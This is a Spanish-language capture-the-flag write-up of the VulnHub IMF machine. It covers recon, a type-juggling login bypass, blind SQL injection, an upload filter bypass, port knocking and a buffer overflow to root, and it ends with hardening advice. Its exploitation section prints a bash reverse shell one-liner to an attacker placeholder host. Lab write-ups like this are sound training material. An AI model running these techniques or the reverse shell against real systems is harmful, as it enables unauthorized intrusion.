







# 🚩 VulnHub-IMF

**Estado**: 🛠️ Finalizada | ⚖️ Dificultad: [MEDIA]
**IP Objetivo**: 192.168.18.156
**SO**: Linux 

---

## 🎯 Resumen Técnico
*   **Vectores de Ataque**: [Ej. Bypass de WAF, RCE]
*   **Escalada de Privilegios**: [Ej. Buffer Overflow, SUID]
*   **Habilidades Clave**: [Ej. Estabilización de TTY, GDB-Peda]

---

## 📑 Metodología de Resolución

### 1. Reconocimiento (Recon)
Una vez identificada la IP de la máquina víctima (`192.168.18.156`), iniciamos la fase de enumeración para identificar vectores de entrada.

**Escaneo de puertos abiertos:**
Utilizamos `nmap` para un escaneo rápido de todo el rango de puertos (65535), priorizando la velocidad y exportando el resultado en formato *grepeable*:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.18.156 -oG AllPorts
```

* **Resultado**: Solo se detectó el **puerto 80** abierto, sugiriendo la presencia de un servicio web.

**Enumeración de servicios y versiones:**
Realizamos un escaneo profundo sobre el puerto identificado para obtener detalles del servicio y ejecutar scripts básicos de reconocimiento:

```bash
nmap -sCV -p80 192.168.18.156 -oN target
```

* **Hallazgo**: El servicio es **HTTP** corriendo sobre **Apache/2.4.18**.


*(Captura de pantalla del escaneo de Nmap)*

si entramos a la página web podremos ver que se trata de una página gubernamental en la cual debemos buscar todo tipo de información que pueda ser util, tal como usuarios, correos que aparezcan dentro. Al ser una maquina con banderas una recomendación es la de presionar ctrl+u para poder ver como esta estructurada la página, por lo que podemos notar que aparecen 3 columnas que hacen referencia a archivos pero los nombres estan en base64. por lo que se deben decodificar para poder ver el mensaje oculto (Flag).
**Podemos hacerlo manualmente o usar el siguiente comando en terminal para obtenerlo directamente**
```bash
curl -s http://192.168.18.156 | grep js | tail -n 3 | sed {'s/.*src="js//;s/\..*//'} | tr -d "/" | base64 -d | sed {'s/.*{//;s/}//'} | base64 -d
```
Esto nos dara la bandera imfadministrator, por lo que es una referencia a la url, que no encontrariamos si usaramos diccionarios para hacer **Web-Content**
una vez tengamos la nueva URL podemos seguir. 

Como se trata de una página web podemos hacer **URL enumeration** con la herramienta **gobuster** para descubrir posibles vectores de ataque, estaremos usando los diccionarios de la **seclist** para **Web-Content** aun si usamos la versión mediano o grande solo se obtienen 2 direcciones **/uploads** y **images** 


*(captura de pantalla de gobuster)*

### 2. Análisis de Vulnerabilidades
> Identificación de fallos y vectores de entrada.
* Se intuye que al existir **/uploads** existe una forma de subir archivos maliciosos al servidor que nos permitan ejecutar código malicioso o entregarnos una reverse shell 
* En **/imagenes** podriamos visualizar archivos ocultos del sistema que no se hayan podido borrar y en su caso poder visualizar archivos que nosostros mismos hayamos subido.
* para el apartado de **Contact Us** tenemos fallos grandes como el hecho de que los correos mostrados son locales por lo que se podria realizar una Enumeración de usuarios locales usando el protocolo SSH.

### 3. Explotación
> Ejecución de payloads y obtención de acceso inicial.
* Vulnerabilidad de contraseñas con **Type Juggling**
    Al entrar a http://192.168.18.156/imfadministrator nos encontramos con un panel de autenticación el cual nos pedira un usuario y contrañeas, aunque intentemos inyecciones SQL y noSQL, no podremos obtener ningun tipo de información que nos permita entrar, por lo que usando la herramienta **burpsuite** para interceptar la peticion usaremos lo que se conoce como **Type Juggling** para que podamos entrar con el usuario rmichaels sin necesidad de saber su contraseña. de usa forma podemos avanzar al siguiente panel y encontrar la siguente bandera **(FLAG)** 
    
    *(Bypass usando Type-Juggling)*
* Obtención de información usando SQL Injection mediante la URL
    Al entrar al panel principal podemos observar en la URL *pagename* lo cual nos permite inferir que podemos hacer un LFI, RFI o SQL inyection, por lo que al probar veremos que solo es posible la tercera opción, cada vez que hacemos una comparación la página devuelve **Welcome to the IMF administrator** por lo que si iteramos sobre diferentes caracteres y la respuesta es otra, podemos obtener información de manera ciega. Por lo que se debe crear un script para poder obtener la información -->  como resultado obtendremos la siguiente información.
    
    *información obtenida*
    esto es importante ya que si buscamos la imagen dentro de la página veremos que hay un código qr el cual contiene la siguiente información
    
* Vulnerabilidad mediante subida de archivo malicioso
    Si entramos a *uploads942.php* veremos que es un apartado para subir archivos, esto deriva en la subida de archivos maliciosos para poder entablar una conexión remota otorgandonos una **shell** la página tiene ciertas precausiones, verifica los ***magic numbers*** para evitar que no se suban archivos con otras extensiones a las imagenes, tambien protege de código php, ya que las funciones system, shell_exec, etc. las detecta y por lo tanto no permite la subida de archivos, sin embargo si se pueden saltar estas medidas cambiando la sintaxis del código, ademas haciendo uso de **burpsuite** podemos agregar la extensión .gif y aun asi el código sera interpretado, por lo que la subida sera exitosa como se muestra a continuación.
    
    *(subida exitosa del archivo)*
*Entablar reverse shell atraves de la url gracias a archivo malicioso
    usando el comando: 
    ```bash
        bash -c 'bash -i >& /dev/tcp/IP_atacante/puerto 0>&1'
    ```
    podemos entablar una reverse shell hacia nosotros (no olvidar url-encodear).
    
### 4. Post-Explotación
> Enumeración interna y escalada de privilegios a Root.
* Bandera 5 
La bandera nos da la pista de agentservices por lo que dentro de la maquina podemos servicios o programas con el nombre de agent, aunque la maquina sea vulnerale a CVE-2021-4034 se usara la vulnerabilidad que fue dada, asi que siguiendo la logica con el comando:
```bash
    find / -name "agent"
```
podemos encontrar que hay un programa llamado agent que puede ser ejecutado el cual nos pide un ID para poder seguir avanzando, ademas de encontrar un archivo llamado control access, el cual nos dara una serie de puertos **SYN 7482,8279,9467** los cuales si aplicamos Port Knocking podemos descubrir algo, al hacerlo obtenemos lo siguiente:

*(Descubrimiento de puerto 7788 en donde se corre el programa agent)*
Teniendo en cuenta podemos observar que el puerto **7788** esta corriendo el programa por lo que si podemos hallar la forma de hacer bufferOverflow nos puede entregar una shell con privilegios root. 

Con el comando **ltrace** podemos ver que el ID es ***48093572*** y que se esta usando strncmp por lo que es posible un bufferOverflow.

Se creo el script ../../scripts/VulnHub-IMF/BufferOverflow-Reverse-Shell.py el cual hace uso de shellcodes para entablar una conexión remota por el peurto 443, por lo que al ejecutar obtenemos nuestra shell.


*(MMaquina IMF completada ultima bandera Gh0stProt0c0ls)*

### 5. Reporte y Mitigación
> Propuestas de endurecimiento (Hardening) del sistema.
1. Endurecimiento del servicio web

### 1.1 Restringir carga de archivos

Durante la explotación se abusó de una funcionalidad de subida de archivos para cargar un archivo con doble extensión o contenido malicioso. Para mitigar esto:

- Validar extensiones permitidas mediante lista blanca.
- Validar el tipo MIME real del archivo.
- Verificar la firma mágica del archivo.
- Renombrar archivos subidos con nombres aleatorios seguros.
- Almacenar archivos subidos fuera del directorio web público.
- Impedir la ejecución de scripts dentro del directorio de uploads.

Ejemplo para Apache:
```apache
<Directory /var/www/html/imfadministrator/uploads>
    php_admin_flag engine off
    Options -ExecCGI
    RemoveHandler .php .phtml .php3 .php4 .php5 .phar
    RemoveType .php .phtml .php3 .php4 .php5 .phar
</Directory>
<FilesMatch "\.(php|phtml|php3|php4|php5|phar)$">
    Require all denied
</FilesMatch>
```
2. Separación de privilegios

El servicio web se ejecutaba como www-data, lo cual es normal, pero ese usuario pudo interactuar con rutas y binarios sensibles.

Recomendaciones:

Mantener www-data sin acceso a directorios fuera de /var/www.
Evitar que www-data pueda leer archivos sensibles.
Usar permisos mínimos en archivos web.
Separar usuarios por servicio.
No ejecutar servicios internos con privilegios elevados si no es necesario.

## 📂 Archivos Relacionados
*   **Scripts**: [../../scripts/]
*   **Evidencia**: [../../assets/]
